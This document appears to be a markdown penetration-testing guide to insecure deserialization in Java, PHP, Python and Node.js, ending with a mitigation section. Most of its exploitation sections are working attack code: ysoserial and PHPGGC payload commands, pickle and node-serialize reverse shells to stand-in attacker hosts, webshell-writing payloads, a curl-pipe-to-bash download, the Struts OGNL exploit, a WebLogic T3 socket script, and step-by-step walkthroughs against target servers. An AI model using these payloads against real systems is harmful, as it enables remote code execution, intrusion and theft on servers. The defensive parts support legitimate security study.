


# Insecure Deserialization

> **Insecure deserialization lets attackers turn saved object data into arbitrary code execution — often by feeding a server a maliciously crafted object that triggers dangerous methods when loaded.**

---

## 🧠 What Is It? (Beginner Explanation)

**Serialization** is the process of converting an in-memory object (like a Python class or Java object) into a format that can be stored or transmitted — think of it like saving a game: you freeze all the data about your character, their inventory, position, etc., and write it to a file.

**Deserialization** is loading that saved game back into memory.

**The bug:** If an attacker can control what "saved game" you load, they can craft a save file that makes the game execute malicious code the moment it's loaded. The program trustingly reconstructs the attacker's evil object, calling methods that do things the developer never intended.

```
Normal flow:   Server serializes User{role:"user"} → stores cookie → deserializes → loads User
Attacker flow: Attacker crafts evil bytes → sends as cookie → server deserializes → OS command runs
```

### Real-World Analogy

A restaurant uses a system where orders are encoded as a QR code and sent to the kitchen. The chef scans the QR code and *executes* the order. If an attacker modifies the QR code to say "while preparing, call system('/bin/bash -i >&/dev/tcp/attacker/4444 0>&1')", the kitchen unknowingly executes it.

---

## 🏗️ How It Works (Technical Deep Dive)

### Serialization Formats Overview

| Language | Format | Magic Bytes / Prefix | Example |
|---|---|---|---|
| Java | Binary (ObjectOutputStream) | `AC ED 00 05` | `rO0ABXNy...` (base64) |
| PHP | Text | `O:4:"User"` | `O:4:"User":1:{s:4:"role";s:5:"admin";}` |
| Python | Binary (pickle) | `\x80\x04` or `\x80\x02` | `gASV...` (base64) |
| Node.js | JSON-like | `{"rce":"_$$ND_FUNC$$_function()"}` | node-serialize payload |
| Ruby | Binary (Marshal) | `\x04\x08` | `BAhv...` (base64) |
| .NET | Binary / XML | `AAEAAAD` (base64) | BinaryFormatter output |

---

## 📊 Attack Flow Diagram





---

## ⚙️ Identifying Deserialization Endpoints

### Where to Look

```
HTTP Cookies        → viewstate, JSESSIONID value, remember-me tokens
HTTP Body           → POST parameters, JSON fields, XML
HTTP Headers        → X-Auth-Token, X-ViewState
URL Parameters      → ?data=, ?object=, ?token=
File Uploads        → Deserialized object files
RMI / JNDI          → Java remote interfaces (port 1099)
JMX                 → Java management port (port 9010)
Custom protocols    → Binary protocols over TCP
```

### Java Detection

```bash
# Magic bytes in raw binary
hexdump -C payload.bin | head
# Look for: ac ed 00 05 (ObjectOutputStream header)

# Base64 encoded Java serialized objects always start with:
echo "rO0ABXNy..." | base64 -d | xxd | head
# rO0AB = base64 encoding of \xac\xed\x00\x05

# HTTP header giveaways
Content-Type: application/x-java-serialized-object
Content-Type: application/x-java-serialization

# Common parameter names containing Java serial data
viewstate=rO0AB...
token=rO0AB...
data=rO0AB...
```

```bash
# Grep for base64 Java serialized objects in traffic
grep -E "rO0AB[A-Za-z0-9+/]+" burp_export.txt

# Look for Java serial object files
file suspicious.bin
# Output: "Java serialization data, version 5"
```

### PHP Detection

```php
# PHP serialized strings are plaintext and readable
O:4:"User":2:{s:4:"name";s:5:"Alice";s:4:"role";s:4:"user";}

# Format breakdown:
# O = Object
# 4 = class name length
# "User" = class name
# 2 = number of properties
# s:4:"name" = string property "name"
# s:5:"Alice" = string value "Alice"

# Array example
a:2:{i:0;s:5:"hello";i:1;s:5:"world";}

# Common locations
Cookie: user_data=O:4:"User":1:{s:4:"role";s:5:"admin";}
POST: profile=O:7:"Profile":1:{...}
```

### Python Pickle Detection

```bash
# Pickle magic bytes
\x80\x04\x95  (protocol 4)
\x80\x02      (protocol 2)
\x80\x03      (protocol 3)
\x80\x01      (protocol 1)
(             (protocol 0, text-based)

# Base64 encoded pickles often start with
gASV  (protocol 4)
gAJj  (protocol 2)

# Look for in HTTP traffic
Cookie: session=gASV...
```

---

## 💥 Java Deserialization Exploitation

### Real CVEs

| CVE | Target | Gadget Chain | CVSS |
|---|---|---|---|
| CVE-2015-4852 | Apache Commons Collections | CC1 | 9.8 |
| CVE-2015-7501 | JBoss EAP | CC1/CC6 | 9.8 |
| CVE-2016-0792 | Jenkins | Groovy1 | 9.8 |
| CVE-2017-10352 | Oracle WebLogic | T3 protocol | 9.8 |
| CVE-2019-2725 | Oracle WebLogic | wls9_async | 9.8 |
| CVE-2020-2555 | Oracle Coherence | Spring1 | 9.8 |
| CVE-2021-44228 | Log4Shell (JNDI) | JNDI lookup | 10.0 |

### ysoserial — The Java Deserialization Swiss Army Knife

```bash
# Download
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar

# List available gadget chains
java -jar ysoserial-all.jar 2>&1 | grep "^\s"

# Generate payload for CommonsCollections1 (ping test)
java -jar ysoserial-all.jar CommonsCollections1 "ping -c 3 attacker.com" > payload.ser

# Generate reverse shell payload
java -jar ysoserial-all.jar CommonsCollections6 \
  "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" \
  > revshell.ser

# Base64 the payload (for HTTP transport)
java -jar ysoserial-all.jar CommonsCollections1 "id" | base64 -w 0

# URL-encode the base64 (for cookie/parameter use)
java -jar ysoserial-all.jar CommonsCollections6 "id" | base64 -w 0 | python3 -c \
  "import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read()))"
```

### Available Gadget Chains

```bash
# Test each chain systematically
GADGETS=(
  "CommonsCollections1"
  "CommonsCollections2"
  "CommonsCollections3"
  "CommonsCollections4"
  "CommonsCollections5"
  "CommonsCollections6"
  "CommonsCollections7"
  "Spring1"
  "Spring4"
  "Groovy1"
  "JRMPClient"
  "BeanShell1"
  "Clojure"
)

for gadget in "${GADGETS[@]}"; do
  echo "[*] Testing $gadget"
  java -jar ysoserial-all.jar $gadget "ping -c 1 $(hostname).burpcollaborator.net" \
    > /tmp/payload_${gadget}.ser 2>/dev/null
done
```

### Sending the Payload

```bash
# Via curl with binary data in POST body
curl -X POST https://target.com/api/data \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @payload.ser

# Via cookie (base64 encoded)
PAYLOAD=$(java -jar ysoserial-all.jar CommonsCollections6 "id" | base64 -w 0)
curl https://target.com/app \
  -H "Cookie: session=$PAYLOAD"

# Via burp - paste base64 in Repeater, decode to binary before sending
```

### JRMP Listener (for JRMPClient gadget chain)

```bash
# Start JRMP listener on attacker machine
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 \
  "bash -c {echo,BASE64_ENCODED_REVSHELL}|{base64,-d}|{bash,-i}"

# Send JRMPClient payload pointing to your listener
java -jar ysoserial-all.jar JRMPClient "attacker.com:1099" > jrmp_payload.ser
curl -X POST https://target.com/rmi-endpoint \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @jrmp_payload.ser
```

---

## 🐘 PHP Object Injection (Insecure Deserialization)

### PHP Serialization Format Deep Dive

```php
<?php
// Original object
class User {
    public $username = "alice";
    protected $role = "user";
    private $token = "abc123";
}

$user = new User();
echo serialize($user);
// Output:
// O:4:"User":3:{s:8:"username";s:5:"alice";s:7:"\0*\0role";s:4:"user";s:11:"\0User\0token";s:6:"abc123";}

// Primitive types
echo serialize(42);         // i:42;
echo serialize("hello");    // s:5:"hello";
echo serialize(true);       // b:1;
echo serialize(null);       // N;
echo serialize([1,"a"]);    // a:2:{i:0;i:1;i:1;s:1:"a";}
```

### PHP Magic Methods — The Gadget Triggers

```php
__wakeup()   // Called immediately when unserialize() is called
__destruct() // Called when object is garbage collected (end of script)
__toString() // Called when object is used as a string
__invoke()   // Called when object is used as a function
__call()     // Called when inaccessible method is invoked
__get()      // Called when reading inaccessible properties
```

### Simple Privilege Escalation via PHP Injection

```php
// VULNERABLE application code:
class User {
    public $role = "user";
    
    public function isAdmin() {
        return $this->role === "admin";
    }
}

// Deserializes cookie without validation
$user = unserialize(base64_decode($_COOKIE['user']));
if ($user->isAdmin()) {
    show_admin_panel();
}
```

```bash
# Craft payload to become admin
php -r 'class User { public $role = "admin"; } echo base64_encode(serialize(new User()));'
# Output: Tzo0OiJVc2VyIjoxOntzOjQ6InJvbGUiO3M6NToiYWRtaW4iO30=

# Send as cookie
curl https://target.com/dashboard -H "Cookie: user=Tzo0OiJVc2VyIjoxOntzOjQ6InJvbGUiO3M6NToiYWRtaW4iO30="
```

### POP Chain — Property-Oriented Programming for RCE

POP chains work by chaining magic methods across multiple classes that are already in the application's codebase.

```php
// Vulnerable application classes (simplified Monolog POP chain)

class Logger {
    private $logFile;
    
    public function __destruct() {
        // Called on garbage collection — attacker triggers this
        file_put_contents($this->logFile, $this->logData);
    }
}

class Config {
    public $template;
    
    public function __toString() {
        // Called when converted to string
        return eval($this->template); // DANGEROUS eval
    }
}

// Attacker's POP chain:
// 1. Craft Logger with logFile = "/var/www/html/shell.php"
// 2. Craft Logger with logData = "<?php system($_GET['cmd']); ?>"
// 3. Unserialize triggers __destruct → writes webshell
```

```php
// Crafting the POP chain payload
<?php
class Logger {
    private $logFile = "/var/www/html/evil.php";
    private $logData = "<?php system(\$_GET['c']); ?>";
}

$payload = new Logger();
echo base64_encode(serialize($payload));
// Send this as a cookie or POST parameter
?>
```

### PHPGGC — PHP Gadget Chain Generator

```bash
# Install
git clone https://github.com/ambionics/phpggc
cd phpggc

# List available gadget chains
php phpggc -l

# List chains for specific frameworks
php phpggc -l | grep -i laravel
php phpggc -l | grep -i symfony
php phpggc -l | grep -i yii

# Generate RCE payload for Laravel
php phpggc Laravel/RCE1 system 'id > /tmp/pwned' -b

# Generate file write payload
php phpggc Laravel/FW1 /var/www/html/shell.php '<?php system($_GET["c"]); ?>' -b

# Symfony RCE
php phpggc Symfony/RCE4 system 'id' -b

# Monolog file write
php phpggc Monolog/RCE1 system id -b

# Guzzle SSRF via chain
php phpggc Guzzle/FW1 /tmp/test.txt 'data' -b

# Pipe output directly to curl
php phpggc Laravel/RCE1 system 'id' -b | \
  xargs -I{} curl -s https://target.com/unserialize -d "data={}"
```

### CVE-2018-8820 — Concrete5 PHP Deserialization

```bash
# Generate payload targeting Concrete5
php phpggc Concrete5/RCE1 exec 'curl http://attacker.com/shell.sh | bash' -b
```

---

## 🐍 Python Pickle RCE

### How Pickle Works

Python's `pickle` module serializes Python objects. The `__reduce__` method tells pickle how to reconstruct an object — and an attacker can abuse this to run arbitrary OS commands.

```python
# VULNERABLE server code
import pickle
import base64
from flask import request

@app.route('/load', methods=['POST'])
def load_data():
    data = base64.b64decode(request.json['data'])
    obj = pickle.loads(data)  # DANGEROUS: attacker controls data
    return str(obj)
```

### Basic Pickle RCE Payload

```python
import pickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        # __reduce__ returns (callable, args) — pickle calls callable(*args)
        return (os.system, ('id',))

# Serialize
payload = pickle.dumps(Exploit())
print(base64.b64encode(payload).decode())
```

### Reverse Shell via Pickle

```python
import pickle
import os
import base64

ATTACKER_IP = "192.168.1.100"
ATTACKER_PORT = 4444

class ReverseShell(object):
    def __reduce__(self):
        cmd = f"bash -c 'bash -i >& /dev/tcp/{ATTACKER_IP}/{ATTACKER_PORT} 0>&1'"
        return (os.system, (cmd,))

payload = pickle.dumps(ReverseShell())
encoded = base64.b64encode(payload).decode()
print(f"Payload: {encoded}")

# Send to vulnerable endpoint:
# curl -X POST https://target.com/load \
#   -H "Content-Type: application/json" \
#   -d '{"data": "'"$encoded"'"}'
```

### Pickle RCE with subprocess

```python
import pickle
import subprocess
import base64

class Exploit:
    def __reduce__(self):
        return (subprocess.check_output, (['id'],))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(payload)
```

### Pickle Protocol 0 (Text-based, URL-safe)

```python
# Protocol 0 is ASCII text, easier to embed in HTTP parameters
import pickle
import io

class Shell:
    def __reduce__(self):
        return (eval, ("__import__('os').system('id')",))

bio = io.BytesIO()
pickler = pickle.Pickler(bio, protocol=0)
pickler.dump(Shell())
print(bio.getvalue().decode())
# Output is ASCII text like:
# cos
# system
# (S'id'
# tR.
```

---

## 🟨 Node.js Deserialization RCE

### The node-serialize Vulnerability

The `node-serialize` npm package allows serializing functions. If a serialized function value is wrapped in an IIFE (Immediately Invoked Function Expression), it executes on deserialization.

```bash
# Install vulnerable package (DO NOT USE IN PRODUCTION)
npm install node-serialize
```

### Vulnerable Server Code

```javascript
// VULNERABLE Express app
const express = require('express');
const serialize = require('node-serialize');
const app = express();

app.get('/profile', (req, res) => {
    // Deserializes attacker-controlled cookie
    const userObj = serialize.unserialize(
        Buffer.from(req.cookies.profile, 'base64').toString()
    );
    res.json({ user: userObj.username });
});
```

### IIFE Payload Construction

```javascript
// Normal serialized object
{"username":"admin","role":"user"}

// Malicious object with IIFE - the _$$ND_FUNC$$_ prefix marks it as a function
// The ()  at the end immediately invokes it
{
  "rce": "_$$ND_FUNC$$_function(){ require('child_process').exec('id', function(err,stdout,stderr){ console.log(stdout); }); }()"
}
```

### Generating the Payload

```javascript
// payload-gen.js
const serialize = require('node-serialize');

// Test command execution
const payload = {
  rce: function() {
    require('child_process').exec(
      'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"',
      function(err, stdout, stderr) {}
    );
  }
};

// Serialize normally first
let serialized = serialize.serialize(payload);
console.log('Normal:', serialized);

// Add IIFE () to trigger execution on deserialization
serialized = serialized.replace(
  '"_$$ND_FUNC$$_function()',
  '"_$$ND_FUNC$$_function()'
).replace('}}', '}()}'
);

const b64 = Buffer.from(serialized).toString('base64');
console.log('Payload:', b64);
```

### Complete Node.js Deserialization Payload

```bash
# Base64 encoded IIFE payload
echo '{"rce":"_$$ND_FUNC$$_function (){require('"'"'child_process'"'"').exec('"'"'id'"'"',function(error,stdout,stderr){console.log(stdout)});}()"}' \
  | base64

# Use as cookie
curl https://target.com/profile \
  -H "Cookie: profile=PAYLOAD_BASE64_HERE"
```

---

## ☕ Real CVE Deep Dives

### CVE-2015-4852 — Apache Commons Collections

**Affected:** Apache Commons Collections 3.1, WebLogic, JBoss, WebSphere, Jenkins

The `InvokerTransformer` class can chain method calls. An attacker constructs a chain:
```
AnnotationInvocationHandler → MapEntry → LazyMap → ChainedTransformer → InvokerTransformer → Runtime.exec()
```

```bash
# Exploit with ysoserial
java -jar ysoserial-all.jar CommonsCollections1 \
  "curl http://attacker.com/$(hostname)" > cc1.ser

# Test against WebLogic (default T3 port)
java -cp ysoserial-all.jar ysoserial.exploit.WebLogic \
  192.168.1.10 7001 CommonsCollections1 "id"
```

### CVE-2017-10352 — Oracle WebLogic RCE

```bash
# WebLogic T3 protocol deserialization
# Tool: weblogic-framework
git clone https://github.com/0xn0ne/weblogicScanner
python3 weblogicScanner.py -u 192.168.1.10 -p 7001

# Direct exploit
java -jar ysoserial-all.jar JRMPClient "attacker.com:1099" > t3_payload.ser

# Send via T3 protocol header
python3 -c "
import socket, struct
payload = open('t3_payload.ser','rb').read()
header = b't3 12.2.1\nAS:255\nHL:19\nMS:10000000\n\n'
s = socket.socket()
s.connect(('192.168.1.10', 7001))
s.send(header)
s.recv(1024)
# Prepend T3 message header
data = b'\x00\x00\x00' + struct.pack('>B', len(payload) + 4) + b'\x01\x01\x00\x00' + payload
s.send(data)
print(s.recv(4096))
"
```

### CVE-2016-0792 — Jenkins Groovy RCE

```bash
# Jenkins CLI deserialization via Groovy gadget chain
java -jar ysoserial-all.jar Groovy1 "id" > groovy_payload.ser

# Via Jenkins CLI (pre-patch)
java -jar jenkins-cli.jar -s http://jenkins.target.com:8080/ \
  groovy = < groovy_payload.ser

# Or via HTTP with binary data
curl -X POST http://jenkins.target.com:8080/cli \
  -H "Content-Type: application/octet-stream" \
  --data-binary @groovy_payload.ser
```

### CVE-2017-5638 — Apache Struts 2 (Deserialization + OGNL)

```bash
# This used OGNL injection (similar concept to deserialization)
curl -X POST https://target.com/struts-app/index.action \
  -H 'Content-Type: %{(#_="multipart/form-data").(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context["com.opensymphony.xwork2.ActionContext.container"]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd="id").(#iswin=(@java.lang.System@getProperty("os.name").toLowerCase().contains("win"))).(#cmds=(#iswin?{"cmd.exe","/c",#cmd}:{"/bin/bash","-c",#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}' \
  -d "test=1"
```

---

## 🔧 Tools Reference

### ysoserial Full Usage

```bash
# Full gadget chain list
java -jar ysoserial-all.jar

# Generate and immediately send via curl (one-liner)
java -jar ysoserial-all.jar CommonsCollections6 "curl http://attacker.com/?pwned=1" | \
  curl -X POST https://target.com/api/session \
    -H "Content-Type: application/x-java-serialized-object" \
    --data-binary @-

# Test blind RCE with DNS (OOB exfiltration)
java -jar ysoserial-all.jar CommonsCollections6 \
  "nslookup \$(whoami).collaborator.net" > dns_payload.ser
```

### PHPGGC Full Usage

```bash
# Show all available chains
php phpggc -l

# Generate with base64 encoding (-b)
php phpggc -b Laravel/RCE1 system 'id'

# Generate with URL encoding (-u)
php phpggc -u Laravel/RCE1 system 'id'

# Generate with JSON encoding
php phpggc -j Laravel/RCE1 system 'id'

# Generate file write
php phpggc -b Laravel/FW1 /var/www/html/shell.php '<?php @eval($_POST["c"]); ?>'

# Chain multiple gadgets
php phpggc -b Symfony/FW1 /tmp/payload.php '<?php system($_GET["c"]); ?>'

# Test target's framework
# Look for composer.lock to identify installed packages
curl https://target.com/composer.lock 2>/dev/null | python3 -m json.tool | grep '"name"'
```

### SerialKiller — Java Deserialization Fuzzer

```bash
# Burp Suite extension: Java Deserialization Scanner
# Install from BApp Store

# Manual approach with serialization-detector
java -jar serialization-detector.jar scan target.jar
```

### Burp Suite Extensions

```
1. Java Deserialization Scanner
   → Automatically detects and exploits Java deserialization
   → Tests multiple gadget chains
   → Active + passive scan modes

2. Freddy (Deserialization Bug Finder)  
   → Detects Java, PHP, .NET deserialization
   → Active scanning with timing-based detection
   → Highlights suspect parameters

3. GadgetProbe
   → Identifies which classes/libraries exist on classpath
   → Uses DNS OOB to confirm class loading
   → Helps choose correct ysoserial gadget chain
```

### GadgetProbe — Identify Correct Gadget Chain

```bash
# Download
wget https://github.com/BishopFox/GadgetProbe/releases/download/v1.0/GadgetProbe-1.0-all.jar

# Probe for loaded classes via DNS callbacks
java -jar GadgetProbe-1.0-all.jar \
  wordlists/commonlibs.txt \
  "http://target.com/api/deserialize" \
  "BURP_COLLABORATOR_URL"
```

---

## 🔍 Step-by-Step Exploitation Walkthrough

### Full Java Deserialization Pwn

```bash
# Step 1: Identify the endpoint and data format
# Look for rO0AB in base64 cookies/parameters
curl -v https://target.com/app -c cookies.txt
grep -E "rO0AB" cookies.txt

# Step 2: Identify the application (framework/libraries)
# Check HTTP headers, error messages, file extensions
# Try to access /WEB-INF/web.xml or composer.json

# Step 3: Use GadgetProbe to identify correct chain
java -jar GadgetProbe.jar wordlists/commonlibs.txt \
  "https://target.com/endpoint" "collaborator.net"

# Step 4: Confirm RCE with DNS callback
java -jar ysoserial-all.jar CommonsCollections6 \
  "nslookup confirm.attacker.burpcollaborator.net" | base64 -w 0

# Step 5: Get a reverse shell
# Setup listener
nc -lvnp 4444

# Generate payload (bash reverse shell base64-encoded to avoid special chars)
CMD='bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'
B64=$(echo "$CMD" | base64 -w 0)
java -jar ysoserial-all.jar CommonsCollections6 \
  "bash -c {echo,${B64}}|{base64,-d}|{bash,-i}" > revshell.ser

# Step 6: Send payload
curl -X POST https://target.com/api/deserialize \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @revshell.ser
```

### Full PHP Object Injection Pwn

```bash
# Step 1: Find PHP serialized data
curl -v https://target.com/ 2>&1 | grep "Set-Cookie"
# Cookie: user=O%3A4%3A%22User%22%3A1%3A%7Bs%3A4%3A%22role%22%3Bs%3A4%3A%22user%22%3B%7D

# Step 2: URL-decode and inspect
python3 -c "import urllib.parse; print(urllib.parse.unquote('O%3A4%3A%22User%22%3A1%3A%7Bs%3A4%3A%22role%22%3Bs%3A4%3A%22user%22%3B%7D'))"
# O:4:"User":1:{s:4:"role";s:4:"user";}

# Step 3: Identify framework with PHPGGC
php phpggc -l | grep -i "laravel\|symfony\|yii\|zend"

# Step 4: Generate exploit
php phpggc -b Laravel/RCE1 system 'id'

# Step 5: Send
curl https://target.com/profile \
  -H "Cookie: data=$(php phpggc -b Laravel/RCE1 system 'id')"
```

---

## 🛡️ Mitigation

### Java — Safe Deserialization

```java
// OPTION 1: Don't deserialize untrusted data. Ever.
// Use JSON/XML with a schema validator instead.

// OPTION 2: Use SerialKiller as an ObjectInputStream wrapper
// Allowlists safe classes, blocks everything else
import org.nioduf.serialkiller.SerialKiller;

ObjectInputStream ois = new SerialKiller(inputStream, "/path/to/serialkiller.conf");
MyObject obj = (MyObject) ois.readObject();

// serialkiller.conf
// <serialkiller>
//   <whitelist>
//     <regexp>com\.myapp\..*</regexp>
//   </whitelist>
//   <blacklist>
//     <regexp>org\.apache\.commons\.collections\..*</regexp>
//   </blacklist>
// </serialkiller>

// OPTION 3: Implement an ObjectInputFilter (Java 9+)
ObjectInputStream ois = new ObjectInputStream(inputStream);
ois.setObjectInputFilter(filterInfo -> {
    Class<?> clazz = filterInfo.serialClass();
    if (clazz == null) return ObjectInputFilter.Status.UNDECIDED;
    // Only allow specific safe classes
    if (clazz == MyDataClass.class) return ObjectInputFilter.Status.ALLOWED;
    return ObjectInputFilter.Status.REJECTED;
});
```

### PHP — Avoid Unserialize

```php
// NEVER deserialize user input
// BAD:
$data = unserialize($_COOKIE['user']);

// GOOD: Use JSON instead
$data = json_decode($_COOKIE['user'], true);
// JSON does not instantiate classes or call magic methods

// If you MUST use serialize/unserialize:
// 1. Sign the data with HMAC
$secret = 'your-secret-key';
$serialized = serialize($data);
$hmac = hash_hmac('sha256', $serialized, $secret);
setcookie('user', $hmac . ':' . base64_encode($serialized));

// 2. Verify before deserializing
[$sig, $b64] = explode(':', $_COOKIE['user'], 2);
$serialized = base64_decode($b64);
if (!hash_equals(hash_hmac('sha256', $serialized, $secret), $sig)) {
    die('Tampered data!');
}
$data = unserialize($serialized, ['allowed_classes' => ['SafeClass']]);
```

### Python — Avoid Pickle for Untrusted Data

```python
# NEVER unpickle untrusted data
# BAD:
import pickle
obj = pickle.loads(user_data)

# GOOD: Use JSON or marshmallow
import json
obj = json.loads(user_data)

# If you need complex object serialization, use:
# - marshmallow (with schema validation)
# - cattrs
# - pydantic

from pydantic import BaseModel

class UserData(BaseModel):
    username: str
    role: str

# Safe: validates types, no arbitrary code execution
user = UserData.model_validate_json(user_data)
```

### Node.js — Avoid node-serialize

```javascript
// NEVER use node-serialize with untrusted data
// BAD:
const serialize = require('node-serialize');
const obj = serialize.unserialize(req.cookies.data);

// GOOD: Use JSON.parse (no function execution)
const obj = JSON.parse(Buffer.from(req.cookies.data, 'base64').toString());

// Or use a schema validator
const Joi = require('joi');
const schema = Joi.object({
    username: Joi.string().alphanum().max(50),
    role: Joi.string().valid('user', 'admin')
});
const { value, error } = schema.validate(JSON.parse(data));
if (error) throw new Error('Invalid data');
```

---

## 📚 References

- [PortSwigger Deserialization Labs](https://portswigger.net/web-security/deserialization)
- [ysoserial — Java Deserialization Payloads](https://github.com/frohoff/ysoserial)
- [PHPGGC — PHP Gadget Chain Generator](https://github.com/ambionics/phpggc)
- [PayloadsAllTheThings — Insecure Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)
- [Marshalling Pickles (AppSec California 2015)](https://frohoff.github.io/appseccali-marshalling-pickles/)
- [OWASP A08:2021 – Software and Data Integrity Failures](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
- [GadgetProbe — Fingerprint Gadget Chains](https://github.com/BishopFox/GadgetProbe)
- [Freddy Burp Extension](https://github.com/nccgroup/freddy)
- [Java Deserialization Cheatsheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
- [node-serialize RCE (CVE-2017-5941)](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
